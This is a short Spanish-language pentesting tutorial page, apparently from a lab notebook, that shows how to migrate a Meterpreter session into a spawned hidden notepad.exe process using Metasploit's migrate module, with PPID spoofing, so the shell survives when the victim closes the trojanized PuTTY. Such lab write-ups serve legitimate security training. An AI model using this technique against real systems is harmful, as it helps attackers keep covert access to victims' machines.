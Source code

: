 # Migración de meterpreter a otro proceso

Siguiendo la practica anterior, cuando el usuario cierra el programa se nos va la sesion, pero para que no pase esto podremos migrar a otro proceso para que cuando dicho usuario cierre el programa a nosotros no nos afecte y podamos seguir teniendo la shell.

Si nosotros dentro de la sesion de `meterpreter` ponemos el siguiente comando:

```shell
run post/windows/manage/migrate
```

Info:

```
[*] Running module against DESKTOP-EALA4JN
[*] Current server process: puttyX.exe (7156)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1296
[+] Successfully migrated into process 1296
```

Lo que esta haciendo es que esta creando un nuevo proceso oculto, en este caso llamado `notepad.exe` y migra este `meterpreter` a dicho proceso, por lo que cuando se cierre el programa no le va a pasar nada a la conexion.

Este sera el proceso donde esta la shell:

<figure><img src="../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

Por lo que si se cierra ese, se nos va la conexion.
